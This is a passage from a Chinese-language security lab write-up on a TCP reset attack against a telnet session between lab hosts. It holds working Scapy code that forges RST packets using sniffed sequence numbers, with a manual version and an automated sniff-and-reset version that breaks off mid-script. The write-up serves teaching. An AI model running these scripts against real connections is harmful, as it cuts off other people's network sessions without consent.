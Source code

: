 ```python
#!/usr/bin/env python3

from scapy.all import *
# 补充源&目的IP

ip = IP(src="10.9.0.6", dst="10.9.0.7")	
# 补充源&目的端口号和序列号，可以从抓包的数据中看到Next sequence number: 3119783587

tcp = TCP(sport=45832, dport=23, flags="R", seq=3119783587)	
pkt = ip/tcp
ls(pkt)
send(pkt, verbose=0)
```

进入攻击者主机，运行程序，可以看到程序把报文具体内容打印出来了，flag为4，说明RESET位置为1：

![image-20220511200106568](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012331078.png)

也可以在wireshark中抓到自己发的包：

![image-20220511200445566](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012331710.png)

再回到主机10.9.0.6，可以看到显示连接断开了：

![image-20220511200515174](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012331888.png)



### Launching the attack automatically

`scapy`中的`sniff`函数可以抓包：

```python
dpkt  = sniff(iface = "br-fb6120b59b51", count = 150, filter="tcp",timeout=5)
```

`sniff`有很多参数，这次用到了其中4个：

- `iface`：指定抓包的网卡
- `count`：指定最多嗅探多少个符合要求的报文
- `filter`：用来筛选抓取的信息，这里只抓TCP数据包
- `timeout`：5m后自动停止嗅探

当停止嗅探后，`dpkt`中的最后一项即最后一个10.9.0.6向10.9.0.7发送的数据包。通过`dpkt[x][IP].src`这样的格式可以解析IP层和TCP层中所需要的各字段：

![image-20220511215811964](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012331354.png)

完整代码：

```python
#!/usr/bin/env python3

from socket import timeout
from scapy.all import *

dpkt  = sniff(iface = "br-fb6120b59b51", count = 150, filter="tcp",timeout=5)
# wrpcap("demo.pcap", dpkt)


n=len(dpkt)-1   # start from dpkt[0]


srcIP=dpkt[n][IP].src
dstIP=dpkt[n][IP].dst
ip = IP(src=srcIP, dst=dstIP)

sportTCP=dpkt[n][TCP].sport
dportTCP=dpkt[n][TCP].dport
```